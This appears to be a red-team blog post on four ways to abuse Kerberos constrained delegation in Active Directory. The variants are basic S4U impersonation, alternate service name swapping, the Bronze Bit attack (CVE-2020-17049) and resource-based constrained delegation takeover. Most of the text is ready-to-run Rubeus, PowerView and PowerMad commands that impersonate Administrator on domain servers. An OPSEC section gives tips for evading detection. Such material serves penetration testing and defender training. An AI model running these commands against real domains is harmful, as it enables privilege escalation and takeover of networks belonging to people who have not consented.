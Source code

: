 ```yaml
---
title: 4 Ways to Abuse Constrained Delegation
date: 2022-03-15 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Various Attacks For Constrained Delegation Abuse
---
```


# Constrained Delegation

-------------------------------------------------------

Table of Contents:
- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#Basic-Constrained-Delegation-Exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)

-------------------------------------------------------

**Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
	- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
	- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
	![](Constrained1.png)

To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).
Enumerate users/computers with constrained Delegation
- In Bloodhound: 
	- Users:
	```
	MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	```
	- Computers: 
	```
	MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	````
- Using Powerview:
	- Users: 
	```
	Get-DomainUser –TrustedToAuth
	```
	- Computers:
	```
	Get-DomainComputer –TrustedToAuth
	```
- Using ADModule enumerate both computers and users: 
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

- To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  We can extract it from a machine (Rubeus `dump`) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt)`: 
```
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892......1211414
```
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt
```

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt
```

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
- `Patched Error Message` : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt
```
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt
```

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have *WRITE* privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: 
```
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)
```
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target:
```
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)
```
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: 
```
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target:
```
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources
-  https://courses.zeropointsecurity.co.uk/courses/red-team-ops
-  https://www.pentesteracademy.com/activedirectorylab
-  https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
-  https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference






